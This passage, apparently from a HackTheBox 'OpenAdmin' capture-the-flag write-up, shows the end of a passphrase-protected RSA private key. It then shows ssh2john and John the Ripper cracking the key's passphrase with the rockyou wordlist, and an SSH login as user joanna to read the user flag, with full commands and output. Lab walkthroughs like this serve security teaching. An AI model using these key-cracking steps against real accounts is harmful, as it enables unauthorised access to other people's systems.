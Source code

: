     kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
    ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
    ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
    6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
    ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
    y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
    9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
    piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
    /U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
    40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
    fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
    9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
    X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
    S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
    FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
    Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
    RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
    uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
    1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
    XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
    yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
    +4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
    qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
    z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
    K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
    -----END RSA PRIVATE KEY-----

We see that the key is password protected (second line of the key) so we use
`ssh2john` to convert the key to a crackable hash. Then we run john on it using
the rockyou wordlist. We crack the `bloodninjas` password.

    :::text
    $ python2 /usr/bin/ssh2john id_rsa > id_rsa.hash
    $ john id_rsa.hash -w=tools/password_lists/rockyou.txt
    Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
    Use the "--format=ssh-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 4 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    bloodninjas      (id_rsa)
    Warning: Only 1 candidate left, minimum 4 needed for performance.
    1g 0:00:00:04 DONE (2020-01-07 15:25) 0.2087g/s 2994Kp/s 2994Kc/s 2994KC/s *7¡Vamos!
    Session completed

We connect as `joanna` using SSH.

    :::text
    ssh joanna@10.10.10.171 -i /tmp/id_rsa
    Enter passphrase for key '/tmp/id_rsa':
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
    <SNIP>
    joanna@openadmin:~$ ls
    user.txt
    joanna@openadmin:~$ cat user.txt
    c9b2cf07d40807e62af62660f0c81b5f
